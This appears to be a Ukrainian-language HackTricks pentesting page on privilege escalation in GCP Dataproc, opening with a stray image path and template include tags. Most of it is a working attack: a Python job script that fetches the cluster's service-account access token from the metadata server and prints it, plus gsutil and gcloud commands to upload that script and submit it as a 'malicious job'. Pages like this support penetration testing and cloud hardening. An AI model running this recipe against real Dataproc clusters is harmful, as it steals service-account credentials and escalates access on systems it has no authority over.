 # GCP Dataproc Privilege Escalation

{{#include ../../../banners/hacktricks-training.md}}

## Dataproc

{{#ref}}
../gcp-services/gcp-dataproc-enum.md
{{#endref}}

### `dataproc.clusters.get`, `dataproc.clusters.use`, `dataproc.jobs.create`, `dataproc.jobs.get`, `dataproc.jobs.list`, `storage.objects.create`, `storage.objects.get`

Мені не вдалося отримати зворотний шелл за допомогою цього методу, однак можливо витягти токен SA з кінцевої точки метаданих, використовуючи метод, описаний нижче.

#### Кроки для експлуатації

- Розмістіть скрипт завдання в GCP Bucket

- Подайте завдання до кластера Dataproc.

- Використовуйте завдання для доступу до сервера метаданих.

- Витягніть токен облікового запису служби, що використовується кластером.
```python
import requests

metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
try:
response = requests.get(metadata_url, headers=headers, timeout=5)
response.raise_for_status()
token = response.json().get("access_token", "")
print(f"Leaked Token: {token}")
return token
except Exception as e:
print(f"Error fetching metadata token: {e}")
return None

if __name__ == "__main__":
fetch_metadata_token()
```

```bash
# Copy the script to the storage bucket
gsutil cp <python-script> gs://<bucket-name>/<python-script>

# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/<python-script> \
--cluster=<cluster-name> \
--region=<region>
```
{{#include ../../../banners/hacktricks-training.md}}
